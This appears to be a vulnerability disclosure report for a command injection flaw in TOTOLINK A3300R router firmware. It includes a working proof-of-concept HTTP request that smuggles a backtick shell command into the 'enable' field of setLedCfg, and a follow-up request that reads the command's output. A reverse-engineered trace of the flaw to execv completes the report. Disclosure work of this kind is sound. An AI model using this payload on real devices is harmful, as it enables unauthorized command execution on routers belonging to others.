 # TOTOLINK A3300R V17.0.0cu.557_B20221024 Command Injection



## Product Information

Product: TOTOLINK A3300R

Firmware Version: V17.0.0cu.557_B20221024 

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html 



![0](images/0.png)



## Attack Type

remote



## Decription

In https://github.com/AuroraHaaash/vul_report/tree/main/TOTOLINK%20A3300R, it presents a way to directly visit the /wizard.html. Besides being access to the passwords and changing them,  the attacker is also able to send several requests that related to /wizard.html, including the `setLedCfg`.

When dealing  with `setLedCfg`  request, there is no verification for the `enable` parameter. And the parameter is controllable, which will eventually lead to command injection.



### POC

``` http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.239.211
Content-Length: 37
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.239.211
Referer: http://192.168.239.211/wizard.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"enable":"`ls>/web/test.txt`","topicurl":"setLedCfg"}
```

Inject the command like ``  `ls>/web/test.txt` ``

![1](images/1.png)

Send certain packet or visit directly, check the result

``` http
GET /test.txt HTTP/1.1
Host: 192.168.239.211
sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![2](images/2.png)



### Analse 

`sub_41067c` will handle the `setLedCfg` request. 

Firstly, `sub_40A4FC` get `enable`  parameter from the request body as a json object, but it return a char pointer.

Although the `atoi` is called, `v3` is finally passed to the `Uci_Set_Str`. Notice that `v3` is a char pointer.

![3](images/3.png)

![4](images/4.png)

`Uci_Set_Str` can be found in `/usr/lib/libcscommon.so`

![5](images/5.png)

Instructions such as `sw`  are used to prepare the values for passing to `snprintf` as parameters, 

`$t9` saves the result of `snprintf` and then will be passed to `CsteSystem`

![6](images/6.png)

This can be much clearer with the help of Ghidra.

The last  parameter of the `snprintf`, `param_4`,  refers to the controllable `v3` in `sub_40A4FC`.

![7](images/7.png)

`CsteSystem` will wrap the command(`$t9`) and then passes it to `execv` to execute the command.

![8](images/8.png)